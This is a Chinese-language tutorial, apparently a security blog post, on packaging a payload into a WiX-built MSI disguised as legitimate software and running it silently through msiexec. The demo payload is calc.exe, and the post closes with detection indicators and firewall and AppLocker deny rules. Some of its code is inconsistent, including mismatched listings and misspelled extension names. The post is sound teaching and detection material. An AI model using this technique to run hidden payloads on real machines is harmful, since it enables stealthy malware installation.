

Msiexec.exe 是用來執行 Windows 的 DLL, MSI 相關檔案的工具，  
但也因為這個特性，我們可以透過包裝的方式來包 malware 進行攻擊

## MSI（Microsoft Software Installer）是什麼？

* * *

### 檔案類型

要講解什麼是 MSI 之前，  
我們要先熟悉幾種檔案類型：

*   `.wxs`：Source Code，寫安裝程式應該是什麼樣子
*   `.wixobj`：Intermediate Object File，Source code 編譯後的結果
*   `.msi`：所有內容連結後，給使用者可以直接使用的安裝檔

### 更深入看看這三種檔案

`.wxs`：

*   用途：
    *   定義 Windows Installer 的內容行為
    *   安裝哪些檔案
    *   建立哪些資料夾
    *   修改哪些註冊表
    *   顯示什麼樣的安裝介面
    *   自訂動作
*   檔案格式語法：
    *   XML
    *   Declarative：只要宣告最終狀態，Wix Toolset 會自己處理

* * *

`.wixobj`：

*   用途：
    *   `.wxs` 被 `candle.exe` 編譯後的結果
    *   linker `light.exe` 的輸入
*   檔案格式：
    *   純 Binary

* * *

`.msi`

*   用途：
    *   可以給使用者直接使用的安裝程式
    *   **由 Windows 內建的 `msiexec.exe` 直接執行**
*   檔案格式語法
    *   COM Structured Storage：可以想像成是 檔案系統中的檔案系統，內部是一個 Relational Database，裡面的 Table 會儲存檔案資訊元件狀態執行序列

上面提到 .msi 是用 msiexec.exe 直接執行的，這也就是我們這次要看的重點！

## 攻擊流程

* * *

### Step 1: 自己做一個.wxs轉.msi

`launch_calc.wxs`：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">

    <Product Id="*" 
             UpgradeCode="21EC2020-3AEA-1069-A2DD-08002B30309D-8874-45b0-a359-2ab841029e2f" 
             Name="Demo Payload Runner" 
             Version="1.0.0.0" 
             Manufacturer="Security Research" 
             Language="1033">

        <Package InstallerVersion="200" Compressed="yes" InstallScope="perMachine" />
        <MediaTemplate EmbedCab="yes" />

        <Directory Id="TARGETDIR" Name="SourceDir">
            <Directory Id="ProgramFilesFolder">
                <Directory Id="INSTALLFOLDER" Name="DemoPayload" />
            </Directory>
        </Directory>

        <Feature Id="ProductFeature" Title="DemoPayload" Level="1">
            <ComponentGroupRef Id="ProductComponents" />
        </Feature>

        <Property Id="WixQuietExec" Value="&quot;[System64Folder]calc.exe&quot;" />
        <CustomAction Id="LaunchCalc" 
                      BinaryKey="WixCA" 
                      DllEntry="WixQuietExec" 
                      Execute="immediate" 
                      Return="asyncNoWait" />

        <InstallExecuteSequence>
            <Custom Action="LaunchCalc" After="InstallFinalize">NOT Installed</Custom>
        </InstallExecuteSequence>

    </Product>

    <Fragment>
        <ComponentGroup Id="ProductComponents" Directory="INSTALLFOLDER">
            <Component Id="EmptyComponent" Guid="PUT-A-GUID-HERE-9e90-4e31-9252-a5e22f778c18">
                <CreateFolder />
            </Component>
        </ComponentGroup>
    </Fragment>
</Wix>

```

我們拆開來看

#### Product 區塊

```xml
<Product Id="*" 
         UpgradeCode="GUID-..." 
         Name="Demo Payload Runner" 
         Version="1.0.0.0" 
         Manufacturer="Security Research" 
         Language="1033">

    <Package InstallerVersion="200" Compressed="yes" InstallScope="perMachine" />
    <MediaTemplate EmbedCab="yes" />

```

這塊是拿來假裝成是正常的合法軟體

#### 安裝內容區塊

```xml
<Directory Id="TARGETDIR" Name="SourceDir">
    <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLFOLDER" Name="DemoPayload" />
    </Directory>
</Directory>

<Feature Id="ProductFeature" Title="DemoPayload" Level="1">
    <ComponentGroupRef Id="ProductComponents" />
</Feature>

<Fragment>
    <ComponentGroup Id="ProductComponents" Directory="INSTALLFOLDER">
        <Component Id="EmptyComponent" Guid="d615957d-44a5-4e71-8409-983226a4220b">
            <CreateFolder />
        </Component>
    </ComponentGroup>
</Fragment>

```

定義安裝內容，列出要複製到使用者電腦的檔案  
因為MSI規定至少要有一個 Component，所以 CreateFolder 後面接 / 是一個空資料夾，  
但整體而言整個區塊幾乎都是空的

#### 自訂動作區塊

```xml
<Property Id="SYSFOLDER">
            <DirectorySearch Id="FindSystemFolder" Path="[System64Folder]" />
        </Property>
        
        <CustomAction Id="LaunchCalc_Set" 
                      Property="LaunchCalc" 
                      Value="&quot;[SYSFOLDER]calc.exe&quot;" />
                      
        <CustomAction Id="LaunchCalc" 
                      BinaryKey="WixCA" 
                      DllEntry="WixQuietExec" 
                      Execute="deferred" 
                      Impersonate="no" />

        <InstallExecuteSequence>
            <Custom Action="LaunchCalc_Set" After="CostFinalize">NOT Installed</Custom>
            <Custom Action="LaunchCalc" Before="InstallFinalize">NOT Installed</Custom>
        </InstallExecuteSequence>
    </Product>

```

這塊就是惡意攻擊的主要區塊

1.  `<Property Id="SYSFOLDER">.......`：
    
    *   `[System64Folder]`是 Wix 內建變數，是 Wix 的內建變數，會直接指向`C:\Windows\System32` 就不用再自己抓路徑
2.  `Value="&quot;[SYSFOLDER]calc.exe&quot;"`：  
    \- `[SYSFOLDER]` 就是前面指向的 System32  
    \- 因為後面在執行的時候不是 immediate，是 deferred,所以如果直接在這邊寫`[System64Folder]`最後被排在序列拿出來的時候會沒辦法解析，這也是為什麼前後要用`&quot`來包起來的原因  
    \- 然後就可以把這次 Demo 的 calc.exe 叫出來
    
3.  `<CustomAction ID="LaunchCalc" ... />`：
    
    *   定義一個自訂動作叫做 LaucnhCalc
    *   `BinaryKey="WixCA"`，`DLLEntry="WixQuietExec"`：用 Wix 內建的 WinCA.dll 裡的 WixQuietExec 函式來執行命令，用這個函式的優點是會在背景安靜執行
    *   `deferred`：指定讓檔案延遲執行，加到序列裡，
4.  `<InstallExecuteSequence>區塊`
    
    *   這邊是在定義觸發順序時間點，才不會安裝的時候程式錯亂 crash 掉
    *   `LaunchCalc_Set` 在 `CostFinalize` 前，一開始的時間點比較適合準備屬性
    *   `LaunchCalc` 在 `InstallFinalize` 前，一開始測試的時候有遇到`LGHT0204 Error`，所以記得要把他排在 `InstallInitialize` 跟 `InstallFinalize` 中間
    *   `Not Installed`：這個是為了確保只會在第一次安裝執行，才可以達到隱蔽的目的

### Step 2: 用 WixToolset 編譯

```
candle.exe launch_calc.wxs
light.exe launch_calc.wixobj -ext WinUtilExtension
# 因為有用到 WixQuietExec，記得要用延伸工具 -ext，light.exe才抓得到

```

### Step 3: 最後把 msiexec.exe 當攻擊

```
# /i 代表安裝, /q 代表安靜模式，無任何UI介面
msiexec.exe /i launch_calc.msi /q

```



就可以看到 calc.exe 跳小算盤出來了

p.s. 這次使用的 wix 是 wix3，不是 wix4，  
wix4 的話 candle.exe, light.exe 都已經被停用了  
語法會有些不一樣，編譯也要改成用 wix build 來完成

如果需要下載 wix3 的話網站在這邊！  
[https://github.com/wixtoolset/wix3/releases/tag/wix3141rtm](https://github.com/wixtoolset/wix3/releases/tag/wix3141rtm)

## 偵測&防禦建議

* * *

### 關鍵偵測指標

*   `msiexec` + HTTP/HTTPS URL
*   `/y` 或 `/z` 參數 = DLL 操作
*   `/quiet` + 網路路徑
*   非預期的 msiexec 執行

### 系統設定

```powershell
# 限制 msiexec 網路存取（Windows Firewall）
New-NetFirewallRule -DisplayName "Block Msiexec" -Direction Outbound -Program "%windir%\system32\msiexec.exe" -Action Block

# AppLocker 規則
New-AppLockerPolicy -RuleType Msi -User Everyone -Action Deny

```

## 總結！

* * *

Msiexec 危險因為：

*   **可載入遠端檔案** - MSI 和 DLL
*   **系統信任** - 有 Microsoft 簽章
*   **靜默執行** - `/quiet` 參數
*   **繞過白名單** - 合法安裝程式